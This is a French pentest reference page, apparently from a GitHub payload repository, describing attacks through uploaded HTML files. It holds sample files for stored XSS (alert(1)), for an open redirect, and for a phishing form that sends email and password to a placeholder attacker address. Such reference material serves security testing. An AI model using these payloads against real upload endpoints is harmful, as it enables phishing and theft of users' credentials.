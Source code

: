 # HTML

<img src="logo_html5.png" title="" alt="" height="200">

**Facteur de risque** : XSS, HTML Injection

**Extension** : `.html`, `.htm`

**Type MIME** : `text/html`

**Description** : Le **H**yper**T**ext **M**arkup **L**anguage (**HTML** ou **HTML5**) est un langage de balisage conçu pour représenter les pages web.

## Sommaire

- Cross-site scripting (XSS)

## Cross-site scripting (XSS)

### Pré-requis

- Le fichier doit être accessible après avoir été uploadé

### Attaque

Le code HTML suivant fait apparaître un pop up :

**xss.html**, **xss.htm**

```html
<!DOCTYPE html>
<html>
<body>

<h1>Stored XSS</h1>

<script>alert(1)</script>

</body>
</html>
```

## HTML Injection

### Pré-requis

- Le fichier doit être accessible après avoir été uploadé

### Attaque

Dans certaines contextes, le payload XSS peut être refusé. Mais l'injection de code HTML est toujours possible.
Pourvoir exécuter de l'HTML permet à un attaqueur d'effectuer du **phishing**, contourner le CSP (**CSP bypass**) etc.

Un exemple pour le phishing :

**html\_phishing.html**, **html\_phishing.htm**

```html
<!DOCTYPE html>
<html>
<body>
    <style>
        h1 {color: green}
    </style>
    <h1>HTML Injection : Phishing</h1>
    <b>Entrez vos identifiants :</b>
    <form action="http://xxx.xxx.xxx.xxx:1234" method="GET">
         <input type="text" name="email" placeholder="Email"/>
        <input type="password" name="password" placeholder="Mot de passe"/>
        <input type="submit" value="Submit"/>
    </form>
</body>
</html>
```

## Open Redirect

### Pré-requis

- Le fichier doit être accessible après avoir été uploadé

### Attaque

Le code suivant permet une redirection sur google.com :

**openredirect.html**, **openredirect.htm**

```html
<!DOCTYPE html>
<html>
<body>
<script>
    window.location = "https://www.google.com/";
</script>
</body>
</html>
```

## References

[PayloadsAllTheThings/xss.htm at master · swisskyrepo/PayloadsAllTheThings · GitHub](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/Files/xss.htm)

[PayloadsAllTheThings/xss.html at master · swisskyrepo/PayloadsAllTheThings · GitHub](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20HTML/xss.html)

[What Are HTML Injections | Acunetix](https://www.acunetix.com/blog/web-security-zone/html-injections/)

## Todo

Crée des fichiers JavaScript ?
